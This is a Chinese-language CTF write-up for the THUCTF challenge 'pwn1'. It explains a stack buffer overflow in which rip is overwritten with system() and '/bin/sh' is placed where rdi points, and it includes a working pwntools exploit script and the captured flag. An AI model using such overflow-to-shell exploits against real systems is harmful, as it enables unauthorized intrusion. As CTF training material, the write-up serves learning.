

pwn1 300 points
================

题意
-------------

Do you know stack overflow?

nc host port

Attachment: stackoverflow_withleak

解题步骤
---------------

对二进制进行逆向，找到典型的缓冲区溢出问题：



构造一个 0x2000 长度的字符串之后，即可覆写 `rbp` 和 `rip` 。一开始尝试跳转到 `doit` 函数：


然后发现并不工作。最后发现这个函数只是用来坑人的。仔细观察上面那张图，`call` 之后有一个 `mov rdi, rsp` 语句，此时 `rsp` 正好是 `scanf` 读入的字符串内容，于是我们掌握了函数调用的第一个参数。于是，如果我们把 `rip` 覆写为 `system` 的地址，我们就可以开一个 shell 了。

脚本（见 [pwn1.py](pwn1.py) ）如下：

```python
from pwn import *
r = remote(host, ip)
r.send('/bin/sh\0'+'A'*(8192-8))
r.send('A'*8)
r.send(p32(0x004005a0))
r.send('\n')
r.interactive()
```

其中 `0x004005a0` 为 `system()` 的地址。

进来系统后，找到 `/home/ctf_puck/flag` 文件中的 `flag`:

```
THUCTF{HahA_you_got_it_And_90od_Job!}
```